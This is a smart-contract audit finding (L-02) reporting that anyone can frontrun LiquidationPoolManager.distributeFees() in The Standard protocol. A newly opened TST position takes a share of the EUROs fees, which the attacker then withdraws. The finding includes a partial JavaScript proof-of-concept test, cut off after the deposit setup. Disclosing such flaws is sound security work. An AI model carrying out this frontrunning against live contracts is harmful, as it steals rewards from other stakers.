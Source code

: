 ## <a id='L-02'></a>L-02. Anyone can frontrun `LiquidationPoolManager.distributeFees()` and steal profit

### Relevant GitHub Links

https://github.com/Cyfrin/2023-12-the-standard/blob/91132936cb09ef9bf82f38ab1106346e2ad60f91/contracts/LiquidationPool.sol#L191

https://github.com/Cyfrin/2023-12-the-standard/blob/91132936cb09ef9bf82f38ab1106346e2ad60f91/contracts/LiquidationPool.sol#L149-L161

https://github.com/Cyfrin/2023-12-the-standard/blob/91132936cb09ef9bf82f38ab1106346e2ad60f91/contracts/LiquidationPool.sol#L137

https://github.com/Cyfrin/2023-12-the-standard/blob/91132936cb09ef9bf82f38ab1106346e2ad60f91/contracts/LiquidationPoolManager.sol#L38

## Summary

Anyone can frontrun `LiquidationPoolManager.distributeFees()` and steal profit from the other users which have positions.

## Vulnerability Details

The `LiquidationPoolManager.distributeFees()` function gives approval to the ``LiquidationPool to access all EUROs tokens in the contract. It then executes `LiquidationPool.distributeFees`and subsequently transfers the remaining EUROs to the protocol's treasury account. The process involves`LiquidationPool.distributeFees`transferring EUROs from`LiquidationPoolManager`. It then iterates through all holders, dividing the EUROs proportionally based on each holder's position in TST, using the formula: `(EURO amount \* holder's TST position) / tstTotal`. Similarly, EUROs are allocated to `pendingStakes`using a related formula. However, the function does not account for the duration for which these pending stakes have existed. This oversight potentially allows anyone to exploit the system by front-running the`LiquidationPoolManager.distributeFees()`function. They could receive a portion of the EUROs and then use`decreasePosition` to withdraw their deposited TST amount plus the received EUROs.

### Coded POC:

Please follow the `@audit` tags for an explanation of the attack

```javascript
it("POC frontrun distributeFees", async () => {
  // #region @audit users' deposits

  const tstPosition1Value = ethers.utils.parseEther("1250");
  await TST.mint(holder1.address, tstPosition1Value);
  await TST.connect(holder1).approve(LiquidationPool.address, tstPosition1Value);
  await LiquidationPool.connect(holder1).increasePosition(tstPosition1Value, 0);

  const tstPosition2Value = ethers.utils.parseEther("7000");
  await TST.mint(holder2.address, tstPosition2Value);
  await TST.connect(holder2).approve(LiquidationPool.address, tstPosition2Value);
  await LiquidationPool.connect(holder2).increasePosition(tstPosition2Value, 0);

  const tstPosition3Value = ethers.utils.parseEther("85000");
  await TST.mint(holder3.address, tstPosition3Value);
  await TST.connect(holder3).approve(LiquidationPool.address, tstPosition3Value);
  await LiquidationPool.connect(holder3).increasePosition(tstPosition3Value, 0);

  const tstPosition4Value = ethers.utils.parseEther("800");
  await TST.mint(holder4.address, tstPosition4Value);
  await TST.connect(holder4).approve(LiquidationPool.address, tstPosition4Value);
  await LiquidationPool.connect(holder4).increasePosition(tstPosition4Value, 0);

```